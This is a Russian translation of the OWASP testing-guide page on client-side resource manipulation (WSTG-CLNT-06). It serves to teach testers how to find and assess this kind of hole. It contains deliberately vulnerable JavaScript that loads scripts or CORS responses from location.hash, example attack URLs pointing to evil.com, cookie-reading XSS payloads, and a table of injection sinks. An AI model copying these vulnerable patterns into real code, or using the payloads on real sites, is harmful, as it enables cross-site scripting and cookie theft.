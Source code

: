 ```yaml
---

layout: col-document
title: WSTG - Latest
tags: WSTG

---
```


{% include breadcrumb.html %}
# Тестирование манипулирования ресурсами на стороне клиента

|ID          |
|------------|
|WSTG-CLNT-06|

## Обзор

Уязвимость, связанная с манипулированием ресурсами на стороне клиента, представляет собой недостаточный контроль ввода. Это происходит, когда приложение принимает входные данные, контролируемые пользователем, которые указывают путь к ресурсу, например, источнику iframe, JavaScript, апплету или обработчику XMLHttpRequest (XHR). Эта уязвимость заключается в возможности контролировать URL, которые ссылаются на ресурсы web-страницы. Влияние этой уязвимости может быть разным, обычно она применяется для проведения XSS-атак. Эта уязвимость позволяет вмешиваться в поведение приложения, заставляя его загружать и отображать вредоносные объекты.

В следующем коде JavaScript показан потенциально уязвимый скрипт, в котором злоумышленник может контролировать `location.hash` (источник), который связан с атрибутом `src` элемента скрипта. Данный пример приводит к XSS-атаке, поскольку допускает инъекцию внешнего JavaScript.

```html
<script>
    var d=document.createElement("script");
    if(location.hash.slice(1)) {
        d.src = location.hash.slice(1);
    }
    document.body.appendChild(d);
</script>
```

Злоумышленник может нацелиться на жертву, заставив ее посетить URL:

`www.victim.com/#http://evil.com/js.js`

Где `js.js` содержит:

```js
alert(document.cookie)
```

Это приведет к появлению предупреждения в браузере жертвы.

Более опасный сценарий включает в себя возможность управления URL, вызываемым в запросе CORS. Поскольку CORS позволяет запрашивающему домену получать доступ к целевому ресурсу с помощью подхода, основанного на HTTP-заголовках, злоумышленник может заставить целевую страницу загрузить вредоносный контент со своего сайта.

Вот пример уязвимой страницы:

```html
<b id="p"></b>
<script>
    function createCORSRequest(method, url) {
        var xhr = new XMLHttpRequest();
        xhr.open(method, url, true);
        xhr.onreadystatechange = function () {
            if (this.status == 200 && this.readyState == 4) {
                document.getElementById('p').innerHTML = this.responseText;
            }
        };
        return xhr;
    }

    var xhr = createCORSRequest('GET', location.hash.slice(1));
    xhr.send(null);
</script>
```

Ввод `location.hash` контролирует пользователь и использует его для запроса внешнего ресурса, который затем будет отражён через конструкцию `innerHTML`. Злоумышленник может заставить жертву перейти по следующему URL:

`www.victim.com/#http://evil.com/html.html`

где полезная нагрузка обрабатывается в `html.html`:

```html
<?php
header('Access-Control-Allow-Origin: http://www.victim.com');
?>
<script>alert(document.cookie);</script>
```

## Задачи тестирования

- Найти приёмники с недостаточной проверкой входных данных.
- Оценить влияние манипуляций с ресурсами.

## Как тестировать

Чтобы вручную проверить наличие уязвимостей такого типа, мы должны выяснить, насколько хорошо приложение контролирует входные данные. Если контроль недостаточный, то эти данные могут использоваться для указания внешних ресурсов. Поскольку приложение может включать множество ресурсов (например, изображения, видео, объекты, css и iframe), следует изучить клиентские скрипты, обрабатывающие связанные URL, на предмет потенциальных проблем.

В таблице ниже показаны возможные точки инъекции (приёмники), которые необходимо проверить:

| Тип ресурса   | Тег/метод                                | Приёмник   |
| --------------- | ----------------------------------------- | ------ |
| Фрейм           | iframe                                    | src    |
| Ссылка            | a                                         | href   |
| Запрос AJAX    | `xhr.open(method, [url], true);` | URL    |
| CSS             | link                                      | href   |
| Изображение           | img                                       | src    |
| Объект          | object                                    | data   |
| Скрипт          | script                                    | src    |

Наиболее интересными из них являются те, которые позволяют злоумышленнику включать код на стороне клиента (например, JavaScript), который может привести к уязвимостям XSS.
